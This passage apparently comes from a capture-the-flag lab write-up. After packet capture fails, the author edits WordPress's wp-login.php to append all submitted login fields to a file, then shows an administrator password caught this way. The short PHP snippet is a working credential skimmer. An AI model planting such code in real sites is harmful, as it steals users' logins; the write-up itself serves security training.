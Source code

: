 

    florian@aragog:/dev/shm$ tcpdump -D
    1.ens33 [Up, Running]
    2.any (Pseudo-device that captures on all interfaces) [Up, Running]
    3.lo [Up, Running, Loopback]
    4.nflog (Linux netfilter log (NFLOG) interface)
    5.nfqueue (Linux netfilter queue (NFQUEUE) interface)
    6.usbmon1 (USB bus number 1)
    7.usbmon2 (USB bus number 2)
    florian@aragog:/dev/shm$ tcpdump -i 3
    tcpdump: lo: You don't have permission to capture on that device
    (socket: Operation not permitted)



Unfortunately, we don't have permissions to do it.

##### Modify wp-login.php

Since the login is a post to `wp-login.php`, I will modify that page so
that it dumps any credentials submitted to it to file, by adding the
lines under `<?php`:



    <?php
    $rrr = print_r($_REQUEST, true);
    $fff = fopen("/dev/shm/df", "a");
    fwrite($fff, $rrr);
    fclose($fff);



Then, I can test by trying to log in, and seeing my response:



    florian@aragog:/dev/shm$ cat df
    Array
    (
        [log] => administrator
        [pwd] => sdf
        [wp-submit] => Log In
        [redirect_to] => http://aragog/dev_wiki/wp-admin/
        [testcookie] => 1
    )



Now wait until the minute rolls around...



    florian@aragog:/dev/shm$ cat df
    Array
    (
        [log] => administrator
        [pwd] => sdf
        [wp-submit] => Log In
        [redirect_to] => http://aragog/dev_wiki/wp-admin/
        [testcookie] => 1
    )
    Array
    (
        [pwd] => !KRgYs(JFO!&MTr)lf
        [wp-submit] => Log In
        [testcookie] => 1
        [log] => Administrator
        [redirect_to] => http://127.0.0.1/dev_wiki/wp-admin/
    )
